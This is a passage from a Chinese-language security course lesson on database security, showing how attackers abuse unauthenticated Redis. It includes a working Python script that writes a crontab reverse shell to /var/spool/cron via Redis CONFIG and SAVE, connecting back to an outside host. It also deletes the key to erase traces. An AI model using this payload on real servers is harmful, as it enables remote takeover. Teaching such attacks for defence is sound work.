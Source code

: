 ```yaml
---
date: "2019-06-23"
---  
```

      
# 16 | 数据库安全：数据库中的数据是如何被黑客拖取的？
你好，我是何为舟。

说到数据库，你肯定会说：“数据库是我最熟悉的工具了。利用它，我能够设计复杂的表结构、写出炫酷的SQL语句、优化高并发场景下的读写性能。”当然，我们的日常工作离不开数据库的使用。而且，数据库中储存的大量机密信息，对于公司和用户都至关重要。

那关于数据库的安全你知道多少呢？你知道数据库是如何进行认证的吗？使用数据库交换数据的过程是安全的吗？假如黑客连入了数据库，又会发生什么呢？

今天，我就以两种比较常见的数据库Redis和MySQL为例，来和你一起探讨数据库的安全。

## Redis安全

我们首先来看Redis。我们都知道，Redis是一个高性能的KV结构的数据库。Redis的设计初衷是在可信的环境中，提供高性能的数据库服务。因此，Redis在设计上没有过多地考虑安全性，甚至可以说它刻意地牺牲了一定的安全性，来获取更高的性能。

那在安全性不高的情况下，黑客连入Redis能做什么呢？最直接的，黑客能够任意修改Redis中的数据。比如，通过一个简单FLUSHALL命令，黑客就能够清空整个Redis的数据了。

复杂一些的，黑客还可以发起权限提升，通过Redis在服务器上执行命令，从而控制整个服务器。但是，Redis本身不提供执行命令的功能，那么黑客是如何让Redis执行命令的呢？我们一起来看一下具体的代码流程。



```
    r = redis.Redis(host=10.0.0.1, port=6379, db=0, socket_timeout=10)
    payload = '\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/1.2.3.4/8080 0>&1\n\n'
    path = '/var/spool/cron'
    name = 'root'
    key = 'payload'
    r.set(key, payload)
    r.config_set('dir', path)
    r.config_set('dbfilename', name)
    r.save()
    r.delete(key)  # 清除痕迹
    r.config_set('dir', '/tmp')
    

```

针对这个过程，我来详细解释一下，你可以结合代码来看。

 *    黑客连入Redis。
 *    黑客写入一个任意的Key，对应的Value是想要执行的命令，并按照Crontab的格式进行拼接。代码如下：

```
    */1* * * * /bin/bash -i >& /dev/tcp/1.2.3.4/80800>&1
    

```

* 黑客调用config\_set方法，就是通过Redis的CONFIG命令，将Redis数据持久化的目录修改成/var/spool/cron。
* 黑客调用save方法，通过Redis的SAVE命令，发起Redis的数据持久化功能。最终，Redis将数据写入到/var/spool/cron中。写入的文件效果如下：
